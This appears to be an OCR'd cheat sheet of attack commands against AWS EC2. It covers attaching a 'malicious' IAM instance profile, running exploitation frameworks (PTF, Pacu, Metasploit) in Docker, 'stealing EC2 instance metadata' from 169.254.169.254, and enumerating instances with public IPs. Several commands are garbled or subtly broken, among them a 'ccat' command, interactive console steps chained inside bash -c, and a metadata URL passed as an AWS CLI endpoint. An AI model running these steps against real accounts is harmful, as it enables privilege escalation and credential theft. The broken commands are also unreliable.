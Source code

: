 ```
aws ec2 associate-iam-instance-profile --instance-id <INSTANCE_ID> --iam-instance-profile Name=<MALICIOUS_PROFILE_NAME>
```

```
ccat ec2 ssh <instance_id>
```

```
docker run -it --rm -v $PWD:/ptf python:3 /bin/bash -c "git clone https://github.com/trustedsec/ptf.git /ptf && cd /ptf && ./ptf --no-cache --update-framework && use modules/exploitation/aws/aws_escalate/ec2_instance_profile && set INSTANCE_ID <INSTANCE_ID> && run"
```


```
docker run -it --rm -v $HOME/.aws:/root/.aws pacuframework/pacu /bin/bash -c "cd pacu && python3 pacu.py --noreporting --no-updates --use-autocomplete"
```


### Stealing EC2 instance metadata


```
curl -H "X-Forwarded-For: 169.254.169.254" http://169.254.169.254/latest/meta-data/
```


```
aws ec2 describe-instances --instance-ids <INSTANCE_ID> --endpoint-url http://169.254.169.254/latest/meta-data/
```


```
docker run -it --rm metasploitframework/metasploit-framework /usr/bin/msfconsole -qx "use exploit/linux/http/aws_ec2_metadata_ssrf; set RHOSTS <TARGET_IP>; run"
```



### Enumeration of EC2 instances with public IP addresses


```
aws ec2 describe-instances --query "Reservations[].Instances[?PublicIpAddress!=null].PublicIpAddress" --output text
```


```
aws ec2 describe-instances --query "Reservations[].Instances[?PublicIpAddress!=null].PublicIpAddress" --output json | jq -r '.[]'
```


```
aws ec2 describe-instances --filters "Name=ip-addresses.public-ip,Values=*" --query "Reservations[].Instances[].[InstanceId, PublicIpAddress, Tags[?Key=='Name'].Value[] | [0]]" --output table
```

